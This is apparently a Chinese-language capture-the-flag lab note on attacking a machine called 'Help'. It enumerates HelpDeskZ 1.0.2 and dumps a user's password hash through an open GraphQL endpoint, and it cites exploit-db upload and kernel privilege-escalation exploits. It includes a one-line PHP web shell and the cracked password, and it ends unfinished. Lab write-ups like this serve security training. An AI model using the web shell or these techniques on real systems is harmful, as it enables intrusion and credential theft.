 [toc]
# Help
- victim
	- 10.129.1.103
- local
	- 10.10.14.34
- [ ] AutoRecon已执行？

---

## Web服务分析(Port 80)

apache默认页面，扫一下目录，主要入口点找到

http://10.129.1.103/support/

Web服务框架是HelpDeskZ

尝试https://www.exploit-db.com/exploits/41200

测试了好像无效，未授权下载局限性很大，sql注入需要授权

http://10.129.1.103/support/UPGRADING.txt

看到是HelpDeskZ 1.0.2，找到合适的EXP，但都要先登陆

https://www.exploit-db.com/exploits/40300

任意文件上传，根据EXP说明，先上传，然后用脚本猜测

```php
<?php system($_POST["hack"]);?> 
```

## Web服务分析(port 3000,Node.js)

http://10.129.1.103:3000/

有一段json小提示

通过请求信息确定是`Node.js Express FrameWork`

Google搜索`node js express query language`，发现query地址是`/graphql`

进行查询，官网：https://graphql.cn/

`?query={user}`提示必须要包含子域，尝试username

`{user {username} }`

```
{"data":{"user":{"username":"helpme@helpme.com"}}}
```

`{user {username,password} }`

```
{"data":{"user":{"username":"helpme@helpme.com","password":"5d3c93182bb20f07b994a7f617e99cff"}}}
```

在线查询到是：godhelpmeplz

## 组合利用

接下来应该是结合账号密码和80端口的EXP拿到shell，并进行提权

`4.4.0-116-generic`  ->  https://www.exploit-db.com/exploits/44298

### 第二方案

也可以继续盲注，可以获取到admin也是root的密码，不需要再提权

---

但是这题VIP+不配做，不做了，等重新换普通VIP再来搞定